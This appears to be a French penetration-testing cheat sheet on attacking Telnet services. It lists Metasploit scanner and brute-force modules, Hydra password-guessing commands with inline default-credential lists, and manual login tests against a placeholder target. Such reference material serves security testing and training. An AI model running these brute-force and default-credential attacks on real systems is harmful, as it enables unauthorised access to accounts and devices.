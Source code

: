 ### Modules Metasploit Telnet
| Module | Description | Usage |
|--------|-------------|-------|
| `auxiliary/scanner/telnet/telnet_version` | Version Telnet | `use auxiliary/scanner/telnet/telnet_version` |
| `auxiliary/scanner/telnet/telnet_login` | Brute force Telnet | `use auxiliary/scanner/telnet/telnet_login` |
| `auxiliary/scanner/telnet/telnet_encrypt_overflow` | Buffer overflow | `use auxiliary/scanner/telnet/telnet_encrypt_overflow` |

### Workflow Metasploit Telnet
```bash
# 1. Détection version
use auxiliary/scanner/telnet/telnet_version
set RHOSTS target
run

# 2. Brute force Telnet
use auxiliary/scanner/telnet/telnet_login
set RHOSTS target
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### Brute Force Telnet avec Hydra
```bash
# Brute force basique
hydra -l admin -P passwords.txt telnet://target

# Brute force avec listes
hydra -L users.txt -P passwords.txt -t 16 -f telnet://target

# Credentials courants Telnet
hydra -L <(echo -e "admin\nroot\nadministrator") \
      -P <(echo -e "admin\npassword\n123456\ntelnet") \
      -t 8 -f telnet://target
```

### Connexion Telnet manuelle
```bash
# Connexion standard
telnet target 23

# Test de credentials courants
telnet target
# Tester: admin/admin, root/root, admin/password

# Avec timeout
timeout 10 telnet target 23
```
